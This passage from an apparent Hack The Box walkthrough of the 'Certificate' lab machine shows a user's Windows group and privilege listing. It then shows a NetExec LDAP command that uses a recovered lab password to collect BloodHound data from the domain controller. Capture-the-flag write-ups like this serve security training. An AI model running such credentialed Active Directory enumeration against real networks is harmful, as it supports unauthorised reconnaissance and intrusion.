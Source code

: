 ```shell
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Account Operators                  Alias            S-1-5-32-548                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
CERTIFICATE\Help Desk                      Group            S-1-5-21-515537669-4223687196-3249690583-1110 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

## Active Directory Enumeration

With the `password` of `Sara.B` we finally could `dump` the `configuration` of the `Active Directory` with the help of `NetExec`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ netexec ldap 10.129.37.186 -u 'sara.b' -p 'Blink182' --bloodhound --dns-tcp --dns-server 10.129.37.186 -c All
LDAP        10.129.37.186   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certificate.htb)
LDAP        10.129.37.186   389    DC01             [+] certificate.htb\sara.b:Blink182 
LDAP        10.129.37.186   389    DC01             Resolved collection methods: dcom, group, container, acl, rdp, psremote, trusts, objectprops, localadmin, session
[12:17:42] ERROR    Unhandled exception in computer DC01.certificate.htb processing: The NETBIOS connection with the remote host timed out.                                                                                 computers.py:268
LDAP        10.129.37.186   389    DC01             Done in 00M 47S
```